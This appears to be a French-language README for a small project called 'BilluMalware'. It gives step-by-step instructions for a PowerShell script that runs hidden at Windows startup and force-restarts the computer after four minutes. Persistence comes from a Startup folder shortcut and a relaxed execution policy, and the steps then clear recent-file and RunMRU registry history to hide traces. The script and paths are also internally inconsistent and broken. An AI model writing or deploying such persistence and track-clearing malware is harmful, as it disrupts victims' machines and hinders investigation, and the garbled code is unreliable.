# BilluMalware  

Création d'un script PowerShell qui se lance au démarrage, sans fenêtre, et qui redémarre le PC après 4 minutes.

## Étapes  

1. **Création du script PowerShell**

- Créez un fichier PowerShell dans le chemin suivant :

``C:\Users\Administrator\Documents\MalWareFromGrp1.ps1`` 

3. **Édition du script**
    
- Éditez le fichier avec **PowerShell ISE** et insérez le code suivant :  

```
  # Masque la fenêtre PowerShell pendant l'exécution
   powershell.exe -WindowsStyle Hidden -File C:\Users\Administrator\MalwareFromeGrp1.ps1

   # Attend 4 minutes
   Start-Sleep -Seconds 240 

   # Redémarre l'ordinateur de force
   Restart-Computer -Force``
```
   
- Autorisation d'exécution des scripts

- Ouvrez PowerShell et tapez la commande suivante pour permettre l'exécution automatique des scripts :

``Set-ExecutionPolicy RemoteSigned``

- Ajout au dossier de démarrage

- Appuyez sur Win+R, tapez shell:startup et validez.

- Vous arrivez dans le dossier de lancement au démarrage :

``C:\Users\maert\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup``

- Faites un clic droit, choisissez "Nouveau" > "Raccourci".

- Nommez le raccourci BilluMalware et indiquez le chemin suivant comme cible :

``powershell.exe -File "C:\Users\Administrators\Documents\BilluMalware.ps1"``

- Nettoyage des historiques

- Supprimer l'historique des fichiers récents dans le navigateur de fichiers.

- Supprimer l'historique de la commande "Exécuter" :
  
- Ouvrez la recherche Windows et tapez regedit.

- Naviguez jusqu'à :

``HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU``

- Supprimez toutes les entrées sauf "Default".
